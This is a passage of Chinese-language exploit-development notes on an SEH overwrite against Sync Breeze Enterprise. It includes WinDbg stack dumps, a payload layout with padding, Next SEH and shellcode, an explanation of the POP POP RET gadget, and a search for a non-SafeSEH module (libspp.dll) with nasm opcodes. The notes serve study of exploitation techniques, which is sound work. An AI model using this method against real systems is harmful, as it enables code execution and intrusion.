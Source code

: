 ```text
0:007> dds esp L5  
0132f338 77f16b12 ntdll!ExecuteHandler2+0x26 0132f33c 0132f440  
0132f340 0132ff54  
0132f344 0132f45c  
0132f348 0132f3cc

0:007> db 0132ff54  
0132ff54 41 41 41 41 42 42 42 42-01 00 00 00 ec 07 5b 00
```

**- step2. 执行POP POP RET**
```text
[A*128][Next SEH][SEH handle][Shellcode]
其中
Next SEH：放置Shellcode地址
SEH handle：放置“POP POP RET”操作函数的地址
```

基本概念 为啥要找这个
参考：
https://blog.csdn.net/qq_32400847/article/details/53232983

POP POP RET是创建SEH(Structured Exception Handler，结构化异常处理程序)漏洞所需的指令序列。

弹出值所对应的寄存器对于攻击成功不重要，重要的是ESP向更高地址移动两次，然后执行RET。因此，POP EAX，POP EBX，RET或POP ECX，POP ECX，RET或POP EDX，POP EAX，RET(等等)都可以。每次发生POP <寄存器>时，ESP向较高地址移动一个位置(对于32位架构来说是4字节)。每次发生RET时，地址ESP中的内容被放入EIP中执行(ESP也会移动，但这在这里不重要)。为了创建成功的SEH漏洞，必须找到POP POP RET序列的地址使攻击者两次将ESP移向更高地址，然后在ESP指向的地址处执行指令。

找/SafeSEH OFF 且没有DEP 和 ASLR的dll
1)被加载到内存中。  
2)在某处有一个POP POP RET指令序列。  
3)没有使用SafeSEH。
```text
 
0:007>.load narly

0:007>!nmod //选择libspp.dll

0:007>! lm m libspp //查看内存地址范围
start end module name  
10000000 10226000 libspp C (export symbols) C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll

kali@kali:~$ msf-nasm_shell

nasm > pop eax  
00000000 58

nasm > pop ebx 
00000000 5B

nasm > pop ecx 
00000000 59

nasm > pop edx 
00000000 5A

nasm > pop esi
00000000 5E 

nasm > pop edi
00000000 5F

nasm > pop ebp
00000000 5D

nasm > ret 
```